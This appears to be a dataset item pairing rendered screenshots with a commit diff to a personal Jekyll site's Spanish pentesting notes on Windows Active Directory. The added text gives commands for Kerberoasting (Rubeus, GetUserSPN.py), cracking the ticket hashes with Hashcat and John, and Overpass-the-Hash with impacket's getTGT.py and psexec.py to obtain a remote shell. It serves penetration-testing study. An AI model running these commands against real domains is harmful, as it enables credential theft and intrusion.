

Before and after one commit to 7yri0n/7yri0n.github.io, a Jekyll site: the page built from pentesting/pentesting_windowsAD.md, in a window 1280 px wide and 1400 px high, scrolled down 2047 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2470 px from its top, so only the background shows below that.

Commit message:
Se añade nuevas secciones a Pentesting > Pentesting Windows AD

```diff
--- a/pentesting/pentesting_windowsAD.md
+++ b/pentesting/pentesting_windowsAD.md
@@ -94,4 +94,41 @@ Con la herramienta **GetUserSPN.py** (impacket):
 
 `python GetUserSPN.py [domain]/[users]:[password] --outputfile hashes.kerberoast`
 
-Con este comando, obtenemos un fichero con un TGS por linea que se puede
+Con este comando, obtenemos un fichero con un TGS por linea que se puede utilizar en Hascat o John para obtener las credenciales de los usuarios.
+
+Con la herramienta **Rubeus.exe** (desde el Windows del usuario del dominio comprometido):
+
+`Rubeus.exe Kerberoast /outfile:hashes.Kerberoast`
+
+
+## Crackeando los TGS's
+
+Con **Hashcat**:
+
+`hashcat -m 13100 --force -a 0 hashes.Kerberoast [pass.txt]`
+
+Con **John**:
+
+`john --format=krb5tgs --wordlist=[pass.txt] hashes.Kerberoast`
+
+## Pass The Hash ¡Falta!
+
+## Overpass The Hash/Pass The Key (PTK)
+
+Se utiliza el hash NTLM de un usuario para solicitar tickets de Kerberos, como alternativa al típico Pass The Hash sobre el protocolo NTLM.**Esta tecnica es útil en redes donde el protocolo NTLM se encuentra deshabilitado y solamente Kerberos permite este protocolo como autenticación.**
+
+<span style="color:red">Necesario el hash NTLM o contraseña del usuario</span>. Con estas credenciales, se puede solicitar un TGT (Ticket Granting Tickets) y utilizar después este para acceder a culaquier servicio del dominio en nombre del usuario.
+
+Con **getTGT.py** (impacket):
+
+`python getTGT.py [domain]/[user] -hashes [hash NTLM]`
+
+Obteniendo el TGT, podemos usar otras herramientas como **psexec.py** para acceder a los sistemas Windows que se pueda con el TGT. Importamos el TGT en el sistema:
+
+`export KRB5CCNAME=/root/impacket-examples/[user.ccache]`
+
+`python psexec.py [domain]/[user]@[equipo domain] -k -no-pass`
+
+Se obtendra una shell. Este ticket se puede utilizar con otros scripts de Impacket con el parametro -k u otras herramientas ya que este ticket TT se guarda en un fichero .ccache (formato utilizado en Linux para almacenar tickets)
+
+<span style="color:green">Troubleshooting: KDC can't found the name: Se resuelve usando el nombre del dominio en vez de la IP [equipo domain] mejor el nombre</span>
```
